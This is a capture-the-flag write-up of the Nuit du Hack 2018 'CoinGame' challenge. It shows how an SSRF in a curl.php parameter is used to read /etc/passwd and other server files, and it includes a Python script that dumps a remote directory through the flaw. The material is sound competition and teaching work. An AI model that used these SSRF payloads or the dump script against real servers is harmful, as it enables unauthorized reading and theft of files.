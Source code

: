 ```yaml
---
layout: post
title:  Nuit du Hack CTF Quals 2018 - CoinGame
author:
  name: onionpsy & Crisis
comments: true
---
```

This was the challenge's description:  
```
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```

![website](/medias/ndhqual18/site.png)  
And this was the website, which as you can see is rather basic : there's just one input, waiting for an url, and the post button. The post is actually doing a curl with the value passed in the `way` param: `/curl.php?way=<url>`

After some tests, we noticed that we could read server files with the `ftp://` or `file://` commands. Like that: `curl.php?way=file:///etc/passwd`.  
![SSRF](/medias/ndhqual18/etcpasswd.png)  
Great, looks like a [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

We kept looking and found one interesting file `curl.php?way=file:///etc/default/tftpd-hpa`:
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure —create" 
```
It seems like the "game" was transfered on the server through FTP, in the "/home/CoinGame" directory.
We tried to find some logfiles that might have helped us find files but we unfortunately found nothing. After a while, We found that a [server-status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) was actually installed on `curl.php?way=http://localhost/server-status`

Between the spam of requests, we found some weird queries like: `curl.php?way=file:///home/CoinGame/TouchMonsterFiles.py`. We tried and boom, it worked. It looks like it was the game from the description. We searched for the code on the internet, and we quickly found the repo on [Github](https://github.com/totheyellowmoon/CoinGame).

After digging the server for a while, we didn't find anything interesting. So we decided to dump the project locally and make a `diff` between the 2 games through a script (don't mind the code pls). `list` was a file containing the list of all the files of the project:

```python
import os
import wget

url = 'http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/'
out = '/tmp/out/'

with open('list') as f: # create the directories
	for line in f:
		dirname = os.path.dirname(out + line)
		if not os.path.exists(dirname):
			try:
				os.makedirs(dirname)
			except Exception as e:
				pass
				
with open('list') as f: # download the files
	for line in f:
		line = line.rstrip()
		try:
			wget.download(url + line, out=out + line)
		except Exception as e:
			print(e)
			pass
```

Once it was downloaded, we just had to make a diff between the 2 folders: 
```bash
diff --brief -r CoinGame/ /tmp/out/
```  

```
Files CoinGame/Avatars/ArchmageAntonidusHearthstone#.png and /tmp/out/Avatars/ArchmageAntonidusHearthstone#.png differ
Files CoinGame/Avatars/ChefOgre#.png and /tmp/out/Avatars/ChefOgre#.png differ
Files CoinGame/Avatars/Chevalier_noir#.png and /tmp/out/Avatars/Chevalier_noir#.png differ
Only in /tmp/out/Avatars: curl.php
Files CoinGame/Avatars/Demon#.png and /tmp/out/Avatars/Demon#.png differ
Files CoinGame/Avatars/ForetSauvage#.png and /tmp/out/Avatars/ForetSauvage#.png differ
Files CoinGame/Avatars/Gobelin#.png and /tmp/out/Avatars/Gobelin#.png differ
Files CoinGame/Avatars/Legion#.png and /tmp/out/Avatars/Legion#.png differ
Files CoinGame/Avatars/LeRoi#.png and /tmp/out/Avatars/LeRoi#.png differ
Files CoinGame/Avatars/MaitreOmbre#.png and /tmp/out/Avatars/MaitreOmbre#.png differ
Files CoinGame/Avatars/poseidon#.png and /tmp/out/Avatars/poseidon#.png differ
Files CoinGame/Avatars/RobotAlpha#.png and /tmp/out/Avatars/RobotAlpha#.png differ
Files CoinGame/Avatars/Roi_des_Nains#.png and /tmp/out/Avatars/Roi_des_Nains#.png differ
Files CoinGame/Avatars/SeigneurDragon#.png and /tmp/out/Avatars/SeigneurDragon#.png differ
Files CoinGame/Avatars/SeigneurNoir#.png and /tmp/out/Avatars/SeigneurNoir#.png differ
Files CoinGame/Avatars/Vikings#.png and /tmp/out/Avatars/Vikings#.png differ
Only in /tmp/out/CardFiles: curl.php
Only in /tmp/out/Cards: curl.php
Only in /tmp/out/Decks: curl.php
Only in /tmp/out: dump.txt
Files CoinGame/gameAnimationImages/background1.png and /tmp/out/gameAnimationImages/background1.png differ
Files CoinGame/gameAnimationImages/background2.png and /tmp/out/gameAnimationImages/background2.png differ
Files CoinGame/gameAnimationImages/background3.png and /tmp/out/gameAnimationImages/background3.png differ
Files CoinGame/gameAnimationImages/background.png and /tmp/out/gameAnimationImages/background.png differ
Files CoinGame/gameAnimationImages/Card_face_avant_black.gif and /tmp/out/gameAnimationImages/Card_face_avant_black.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_blue.gif and /tmp/out/gameAnimationImages/Card_face_avant_blue.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.gif and /tmp/out/gameAnimationImages/Card_face_avant.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.jpg and /tmp/out/gameAnimationImages/Card_face_avant.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.gif and /tmp/out/gameAnimationImages/Card_face_avant_v3.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v3.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.gif and /tmp/out/gameAnimationImages/Card_face_avant_v4.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v4.jpg differ
Only in /tmp/out/gameAnimationImages: curl.php
Only in CoinGame/: .git
Only in CoinGame/photo: bebe-dragon (1).jpg
Only in /tmp/out/photo: curl.php
Only in CoinGame/photo: Demon cornu.jpg
Only in CoinGame/photo: Drag
Only in CoinGame/photo: mangeur de crapau.jpg
Only in CoinGame/photo: Moderne
Only in CoinGame/photo: New
Only in CoinGame/photo: Ogres
Only in CoinGame/photo: petit etre_7247.jpg
Only in CoinGame/photo: portail demoniaque.jpg
Only in CoinGame/photo: portail oblivion.jpg
Only in CoinGame/photo: reve
Only in CoinGame/photo: serpents tournants.jpg
Only in CoinGame/photo: Source de vie.jpg
```
We quickly checked every image and we saw the actual flag on all `backgroundX.png` :  
![flag](/medias/ndhqual18/flag.png)  

Done :)